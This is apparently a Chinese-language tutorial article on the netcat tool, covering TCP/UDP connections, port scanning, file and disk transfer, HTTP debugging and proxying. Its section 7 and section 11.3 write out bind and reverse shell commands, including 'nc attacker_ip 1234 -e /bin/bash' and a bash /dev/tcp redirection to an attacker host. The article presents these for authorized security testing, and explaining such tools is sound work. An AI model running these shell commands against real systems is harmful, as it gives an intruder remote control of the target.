


+++
title = "netcat网络工具深度解析"
date = 2026-01-31
weight = 45000
description = "netcat深度解析：TCP/UDP连接、端口扫描、文件传输、反向Shell"
[taxonomies]
tags = ["Linux", "netcat", "nc", "网络", "调试"]
+++

# netcat 网络工具深度解析

本文深入解析 netcat（nc）网络工具的工作原理，包括 TCP/UDP 连接、端口扫描、文件传输、反向 Shell 等核心技术。

---

## 一、netcat 概述

### 1.1 什么是 netcat

**netcat**（简称 **nc**）被称为"网络瑞士军刀"，用于：
- 建立 TCP/UDP 连接
- 端口扫描和监听
- 文件传输
- 网络调试和测试
- 创建简单的服务器

### 1.2 netcat 版本

| 版本 | 说明 | 特点 |
|------|------|------|
| **netcat-traditional** | 原始版本 | 功能全面，包含 -e 选项 |
| **netcat-openbsd** | OpenBSD 版 | 安全，无 -e，有 -X 代理 |
| **ncat** | Nmap 项目 | 最强大，SSL 支持 |
| **socat** | 高级版本 | 功能最丰富 |

### 1.3 架构概览



---

## 二、工作原理

### 2.1 基本连接模式



### 2.2 TCP vs UDP 模式

```
TCP 模式（默认）：
- 面向连接
- 可靠传输
- 用于：文件传输、远程 Shell

UDP 模式（-u）：
- 无连接
- 不可靠传输
- 用于：DNS 测试、简单消息
```

---

## 三、基本使用

### 3.1 安装

```bash
# Debian/Ubuntu
sudo apt install netcat-openbsd    # OpenBSD 版
sudo apt install netcat-traditional # 传统版

# CentOS/RHEL
sudo yum install nmap-ncat         # ncat

# macOS
brew install netcat
```

### 3.2 常用选项

| 选项 | 说明 | 示例 |
|------|------|------|
| `-l` | 监听模式 | `nc -l 1234` |
| `-p port` | 指定端口 | `-p 1234` |
| `-u` | UDP 模式 | `-u` |
| `-v` | 详细输出 | `-v` |
| `-n` | 不解析主机名 | `-n` |
| `-z` | 零 I/O（扫描） | `-z` |
| `-w timeout` | 超时 | `-w 5` |
| `-k` | 保持监听 | `-k` |
| `-e prog` | 执行程序 | `-e /bin/bash` |
| `-c cmd` | 执行命令 | `-c 'echo hello'` |

### 3.3 TCP 连接测试

```bash
# 服务端监听
nc -l -p 1234

# 客户端连接
nc server_ip 1234

# 连接后可以互相发送文本
# Ctrl+C 或 Ctrl+D 结束
```

### 3.4 UDP 连接

```bash
# UDP 服务端
nc -u -l -p 1234

# UDP 客户端
nc -u server_ip 1234
```

---

## 四、端口扫描

### 4.1 基本扫描

```bash
# 扫描单个端口
nc -zv host 80

# 扫描端口范围
nc -zv host 20-100

# 快速扫描（设置超时）
nc -zv -w 1 host 1-1000

# 扫描多个端口
nc -zv host 22 80 443
```

### 4.2 扫描输出

```bash
$ nc -zv 192.168.1.1 20-25
nc: connect to 192.168.1.1 port 20 (tcp) failed: Connection refused
nc: connect to 192.168.1.1 port 21 (tcp) failed: Connection refused
Connection to 192.168.1.1 22 port [tcp/ssh] succeeded!
nc: connect to 192.168.1.1 port 23 (tcp) failed: Connection refused
nc: connect to 192.168.1.1 port 24 (tcp) failed: Connection refused
nc: connect to 192.168.1.1 port 25 (tcp) failed: Connection refused
```

### 4.3 批量扫描脚本

```bash
#!/bin/bash
# port_scan.sh

HOST=$1
PORTS=${2:-"22 80 443 3306 5432 6379 8080"}

echo "Scanning $HOST..."
for port in $PORTS; do
    nc -zv -w 1 $HOST $port 2>&1 | grep -i "succeeded"
done
```

---

## 五、文件传输

### 5.1 基本文件传输

```bash
# 接收端（先启动）
nc -l -p 1234 > received_file

# 发送端
nc server_ip 1234 < file_to_send

# 或使用管道
cat file_to_send | nc server_ip 1234
```

### 5.2 带进度的传输

```bash
# 接收端
nc -l -p 1234 | pv > received_file

# 发送端
pv file_to_send | nc server_ip 1234
```

### 5.3 目录传输

```bash
# 发送端（打包并发送）
tar czf - directory/ | nc server_ip 1234

# 接收端（接收并解压）
nc -l -p 1234 | tar xzf -

# 或使用压缩
tar cf - directory/ | gzip -c | nc server_ip 1234
nc -l -p 1234 | gunzip -c | tar xf -
```

### 5.4 磁盘克隆

```bash
# 发送端
dd if=/dev/sda | nc server_ip 1234

# 接收端
nc -l -p 1234 | dd of=/dev/sdb

# 带压缩
dd if=/dev/sda | gzip -c | nc server_ip 1234
nc -l -p 1234 | gunzip -c | dd of=/dev/sdb
```

---

## 六、网络调试

### 6.1 简单 HTTP 请求

```bash
# 发送 HTTP 请求
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80

# 或交互式
nc example.com 80
GET / HTTP/1.1
Host: example.com

```

### 6.2 简单 HTTP 服务器

```bash
# 单次响应
echo -e "HTTP/1.1 200 OK\r\n\r\nHello World" | nc -l -p 8080

# 持续服务（循环）
while true; do
    echo -e "HTTP/1.1 200 OK\r\nContent-Length: 12\r\n\r\nHello World!" | nc -l -p 8080
done

# 返回文件内容
while true; do
    nc -l -p 8080 < index.html
done
```

### 6.3 TCP 连接测试

```bash
# 测试端口是否开放
nc -zv host 80
nc -zv host 443

# 测试连接并发送数据
echo "PING" | nc -w 2 host 1234

# 测试 SSL（使用 ncat）
ncat --ssl host 443
```

### 6.4 UDP 测试

```bash
# 发送 UDP 包
echo "test" | nc -u host 53

# 测试 DNS
echo -e '\x00\x01\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x06google\x03com\x00\x00\x01\x00\x01' | nc -u 8.8.8.8 53 | xxd
```

---

## 七、反向 Shell（安全测试）

### 7.1 正向 Shell

```bash
# 目标机器（服务端）- 需要 netcat-traditional 或 ncat
nc -l -p 1234 -e /bin/bash

# 攻击机器（客户端）
nc target_ip 1234

# 现在可以执行命令
whoami
ls -la
```

### 7.2 反向 Shell

```bash
# 攻击机器（监听）
nc -l -p 1234

# 目标机器（连接回来）- 需要 -e 选项
nc attacker_ip 1234 -e /bin/bash

# 使用 bash 重定向（无需 -e）
bash -i >& /dev/tcp/attacker_ip/1234 0>&1
```

### 7.3 安全注意事项

```
⚠️ 警告：
- 反向 Shell 仅用于授权的安全测试
- 生产环境禁止使用 -e 选项的 netcat
- 监控网络中的异常连接
```

---

## 八、代理和转发

### 8.1 简单端口转发

```bash
# 使用命名管道
mkfifo /tmp/pipe
nc -l -p 8080 < /tmp/pipe | nc target_host 80 > /tmp/pipe

# 持续转发
while true; do
    nc -l -p 8080 < /tmp/pipe | nc target_host 80 > /tmp/pipe
done
```

### 8.2 使用 ncat 代理

```bash
# SOCKS 代理
ncat --listen --proxy-type socks4 --proxy-auth user:pass 1080

# HTTP 代理
ncat --listen --proxy-type http 8080

# 通过代理连接
ncat --proxy proxy_host:1080 --proxy-type socks4 target_host 80
```

### 8.3 SSL/TLS 连接

```bash
# SSL 客户端
ncat --ssl host 443

# SSL 服务端
ncat --ssl --ssl-cert cert.pem --ssl-key key.pem -l 443
```

---

## 九、高级用法

### 9.1 聊天服务器

```bash
# 服务端
nc -l -p 1234

# 客户端
nc server_ip 1234

# 双方可以互相发送消息
```

### 9.2 带宽测试

```bash
# 接收端
nc -l -p 1234 > /dev/null

# 发送端（发送 1GB 数据）
dd if=/dev/zero bs=1M count=1024 | nc -q 0 server_ip 1234

# 或使用 pv 显示速度
dd if=/dev/zero bs=1M count=1024 | pv | nc server_ip 1234
```

### 9.3 系统监控

```bash
# 远程查看系统状态
# 服务端
while true; do
    (echo "=== $(date) ==="; top -b -n 1 | head -20) | nc -l -p 1234
done

# 客户端
nc server_ip 1234
```

### 9.4 远程备份

```bash
# 备份服务器（接收）
nc -l -p 1234 | gzip -d > backup_$(date +%Y%m%d).sql

# 数据库服务器（发送）
mysqldump --all-databases | gzip -c | nc backup_server 1234
```

---

## 十、与 socat 对比

| 特性 | netcat | ncat | socat |
|------|--------|------|-------|
| 基本连接 | ✅ | ✅ | ✅ |
| SSL/TLS | ❌ | ✅ | ✅ |
| 代理支持 | ❌ | ✅ | ✅ |
| IPv6 | 有限 | ✅ | ✅ |
| 端口转发 | 有限 | ✅ | ✅ |
| 复杂性 | 低 | 中 | 高 |
| 学习曲线 | 低 | 低 | 高 |

### 10.1 socat 示例

```bash
# TCP 转发
socat TCP-LISTEN:8080,fork TCP:target:80

# SSL 连接
socat - OPENSSL:host:443

# 串口到 TCP
socat TCP-LISTEN:2000 /dev/ttyUSB0,raw,echo=0
```

---

## 十一、常见问题

### 11.1 连接被拒绝

```bash
# 检查端口是否监听
ss -tlnp | grep 1234
netstat -tlnp | grep 1234

# 检查防火墙
iptables -L -n
firewall-cmd --list-all
```

### 11.2 连接超时

```bash
# 设置超时
nc -w 5 host port

# 检查网络连通性
ping host
traceroute host
```

### 11.3 没有 -e 选项

```bash
# OpenBSD 版没有 -e
# 使用 bash 重定向替代
bash -c 'bash -i >& /dev/tcp/host/port 0>&1'

# 或安装 netcat-traditional
sudo apt install netcat-traditional
```

---

## 十二、高频考点总结

| 考点 | 频率 | 关键知识 |
|------|------|----------|
| 基本连接 | ★★★ | -l 监听、客户端连接 |
| 文件传输 | ★★★ | 重定向、管道、tar |
| 端口扫描 | ★★☆ | -z、-v、端口范围 |
| TCP/UDP 区别 | ★★☆ | -u UDP 模式 |
| 反向 Shell | ★★☆ | -e 选项、bash 重定向 |
| 调试应用 | ★★☆ | HTTP 请求、连接测试 |

---

## 相关文章

- [上一篇：mtr网络路径分析深度解析](@/articles/linux/linux-44-mtr网络路径分析深度解析.md)
- [网络故障排查实战](@/articles/networking/net-12-网络虚拟化技术.md)
